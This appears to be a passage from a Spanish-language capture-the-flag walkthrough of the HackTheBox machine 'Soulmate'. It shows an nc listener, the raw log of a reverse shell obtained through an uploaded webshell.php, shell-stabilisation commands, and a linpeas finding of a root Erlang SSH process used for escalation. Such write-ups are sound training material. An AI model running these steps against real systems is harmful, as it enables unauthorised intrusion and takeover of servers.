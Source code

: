 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143427.png" alt=""><figcaption></figcaption></figure>

Ahora antes de acceder al archivo, vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Estando a la escucha, si nos vamos a la siguiente `URL` que es donde hemos depositado dicho archivo...

```
URL = http://soulmate.htb/test/webshell.php
```

Veremos una pantalla en blanco, pero si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.86] 46820
whoami
www-data
```

Ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user ben

Si investigamos un poco con `linpeas.sh` veremos un proceso como `root` bastante interesante que es el siguiente:

```
root        3405  0.0  1.5 2256188 60120 ?       Ssl  08:44   0:09 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
```
